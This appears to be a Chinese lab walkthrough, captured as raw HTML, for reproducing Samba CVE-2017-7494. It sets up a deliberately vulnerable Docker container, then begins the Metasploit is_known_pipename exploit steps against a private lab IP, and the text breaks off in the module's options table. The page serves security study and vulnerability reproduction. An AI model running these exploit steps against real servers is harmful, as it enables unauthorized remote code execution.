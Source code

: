                     <blockquote nodeIndex="14"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="15"><strong class=" _RIL_KEEPER_CLASS_" nodeIndex="160"><span nodeIndex="161">版权声明：</span></strong><span nodeIndex="162"></span></p></blockquote><h3 nodeIndex="19">漏洞信息</h3><p class=" _RIL_KEEPER_CLASS_" nodeIndex="20">2017年5月24日Samba发布了4.6.4版本，中间修复了一个严重的远程代码执行漏洞，漏洞编号CVE-2017-7494，漏洞影响了Samba 3.5.0 之后到4.6.4/4.5.10/4.4.14中间的所有版本。</p><ul class=" list-paddingleft-2 _RIL_KEEPER_CLASS_" nodeIndex="22"><li nodeIndex="21"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="23" childisonlyalink="1"><a>Remote code execution from a writable share.（https://www.samba.org/samba/security/CVE-2017-7494.html）</a></p></li></ul><h3 nodeIndex="24">镜像信息</h3><p class=" _RIL_KEEPER_CLASS_" nodeIndex="25"><div id="RIL_IMG_1" class="RIL_IMG"><img src="/media/posts_images/2017-05-25-1758171199/1"/></div></p><h3 nodeIndex="26">获取环境:</h3><p class=" _RIL_KEEPER_CLASS_" nodeIndex="27">拉取镜像到本地</p><pre class="prettyprint linenums prettyprinted" nodeIndex="28"><ol class="linenums list-paddingleft-2 _RIL_KEEPER_CLASS_" nodeIndex="30"><li nodeIndex="29"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="31"><code><span class="pln">$ docker pull medicean</span><span class="pun">/</span><span class="pln">vulapps</span><span class="pun">:</span><span class="pln">s_samba_1</span></code></p></li></ol></pre><p class=" _RIL_KEEPER_CLASS_" nodeIndex="32">启动环境</p><pre class="prettyprint linenums prettyprinted" nodeIndex="33"><ol class="linenums list-paddingleft-2 _RIL_KEEPER_CLASS_" nodeIndex="35"><li nodeIndex="34"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="36"><code><span class="pln"> $ docker run </span><span class="pun">-</span><span class="pln">d </span><span class="pun">-</span><span class="pln">p </span><span class="lit">445</span><span class="pun">:</span><span class="lit">445</span><span class="pln"> </span><span class="pun">-</span><span class="pln">p </span><span class="lit">139</span><span class="pun">:</span><span class="lit">139</span><span class="pln"> </span><span class="pun">-</span><span class="pln">p </span><span class="lit">138</span><span class="pun">:</span><span class="lit">138</span><span class="pln"> </span><span class="pun">-</span><span class="pln">p </span><span class="lit">137</span><span class="pun">:</span><span class="lit">137</span><span class="pln"> medicean</span><span class="pun">/</span><span class="pln">vulapps</span><span class="pun">:</span><span class="pln">s_samba_1</span></code></p></li></ol></pre><blockquote nodeIndex="37"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="38"><code class="prettyprint code-in-text prettyprinted" nodeIndex="171"><span class="pun" nodeIndex="172">-</span><span class="pln" nodeIndex="173">p </span><span class="lit" nodeIndex="174">445</span><span class="pun" nodeIndex="175">:</span><span class="lit" nodeIndex="176">445</span></code> 前面的 445 代表物理机的端口</p></blockquote><h3 nodeIndex="39">利用步骤</h3><p class=" _RIL_KEEPER_CLASS_" nodeIndex="40">假定目标 IP 是： 192.168.35.197</p><pre class="prettyprint linenums prettyprinted" nodeIndex="41"><ol class="linenums list-paddingleft-2 _RIL_KEEPER_CLASS_" nodeIndex="43"><li nodeIndex="42"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="44"><code><span class="pln">msf </span><span class="pun">></span><span class="pln"> </span><span class="kwd">use</span><span class="pln"> exploit</span><span class="pun">/</span><span class="pln">linux</span><span class="pun">/</span><span class="pln">samba</span><span class="pun">/</span><span class="pln">is_known_pipename</span></code></p></li><li nodeIndex="45"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="46"><code><span class="pln">msf exploit</span><span class="pun">(</span><span class="pln">is_known_pipename</span><span class="pun">)</span><span class="pln"> </span><span class="pun">></span><span class="pln"> </span><span class="kwd">set</span><span class="pln"> RHOST </span><span class="lit">192.168</span><span class="pun">.</span><span class="lit">35.197</span></code></p></li><li nodeIndex="47"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="48"><code><span class="pln">RHOST </span><span class="pun">=></span><span class="pln"> </span><span class="lit">192.168</span><span class="pun">.</span><span class="lit">35.197</span></code></p></li><li nodeIndex="49"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="50"><code><span class="pln">msf exploit</span><span class="pun">(</span><span class="pln">is_known_pipename</span><span class="pun">)</span><span class="pln"> </span><span class="pun">></span><span class="pln"> show options</span></code></p></li><li nodeIndex="51"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="52"><code></code></p></li><li nodeIndex="53"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="54"><code><span class="typ">Module</span><span class="pln"> options </span><span class="pun">(</span><span class="pln">exploit</span><span class="pun">/</span><span class="pln">linux</span><span class="pun">/</span><span class="pln">samba</span><span class="pun">/</span><span class="pln">is_known_pipename</span><span class="pun">):</span></code></p></li><li nodeIndex="55"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="56"><code></code></p></li><li nodeIndex="57"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="58"><code><span class="pln">   </span><span class="typ">Name</span><span class="pln">            </span><span class="typ">Current</span><span class="pln"> </span><span class="typ">Setting</span><span class="pln">  </span><span class="typ">Required</span><span class="pln">  </span><span class="typ">Description</span></code></p></li><li nodeIndex="59"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="60"><code><span class="pln">   </span><span class="pun">----</span><span class="pln">            </span><span class="pun">---------------</span><span class="pln">  </span><span class="pun">--------</span><span class="pln">